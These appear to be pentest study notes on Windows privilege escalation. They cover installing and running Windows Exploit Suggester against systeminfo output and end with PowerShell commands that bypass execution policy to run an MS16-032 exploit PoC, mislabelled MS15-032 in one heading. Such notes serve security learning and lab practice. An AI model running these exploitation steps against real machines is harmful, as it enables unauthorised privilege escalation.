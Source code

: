 Feature	                            Windows 7          	Windows 10
Microsoft Password (MFA)		                                X
BitLocker	                           Partial	              X
Credential Guard		                                        X
Remote Credential Guard		                                  X
Device Guard (code integrity)		                            X
AppLocker	                           Partial	              X
Windows Defender	                   Partial	              X
Control Flow Guard		                                      X

https://github.com/AonCyberLabs/Windows-Exploit-Suggester

**Install Python Dependencies (local VM only)
```
sudo wget https://files.pythonhosted.org/packages/28/84/27df240f3f8f52511965979aad7c7b77606f8fe41d4c90f2449e02172bb1/setuptools-2.0.tar.gz
sudo tar -xf setuptools-2.0.tar.gz
cd setuptools-2.0/
sudo python2.7 setup.py install
sudo wget https://files.pythonhosted.org/packages/42/85/25caf967c2d496067489e0bb32df069a8361e1fd96a7e9f35408e56b3aab/xlrd-1.0.0.tar.gz
sudo tar -xf xlrd-1.0.0.tar.gz
cd xlrd-1.0.0/
sudo python2.7 setup.py install
```

**Gathering Systeminfo Command Output
```
systeminfo
```

**Updating the Local Microsoft Vulnerability Database
```
sudo python2.7 windows-exploit-suggester.py --update
```

**Running Windows Exploit Suggester
```
python2.7 windows-exploit-suggester.py  --database 2021-05-13-mssb.xls --systeminfo win7lpe-systeminfo.txt
```

**Local Exploit Suggester Module Meterpreter Shell
https://www.rapid7.com/blog/post/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/

**Exploiting MS15-032 with PowerShell PoC
https://www.exploit-db.com/exploits/39719
```
Set-ExecutionPolicy bypass -scope process
Import-Module .\Invoke-MS16-032.ps1
Invoke-MS16-032
```
